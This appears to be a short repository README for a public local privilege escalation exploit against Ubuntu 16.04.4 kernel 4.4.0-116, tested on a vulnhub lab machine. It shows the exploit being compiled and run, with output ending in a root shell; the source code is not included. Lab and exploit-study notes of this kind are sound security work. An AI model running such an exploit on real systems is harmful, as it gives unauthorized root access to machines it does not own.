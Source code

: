 Ubuntu 16.04.4 Local Privilege Escalation 

[https://www.exploit-db.com/exploits/44298]

Tested in vulnhub/fowsniff



```
$ uname -a
Linux fowsniff 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

$ gcc exploit_linux_kernel_4.4.0.c -o exploit_linux_kernel_4.4.0
$./exploit_linux_kernel_4.4.0 
task_struct = ffff88001e3ed400
uidptr = ffff88001eaff004
spawning root shell
root@fowsniff:/tmp# 

```

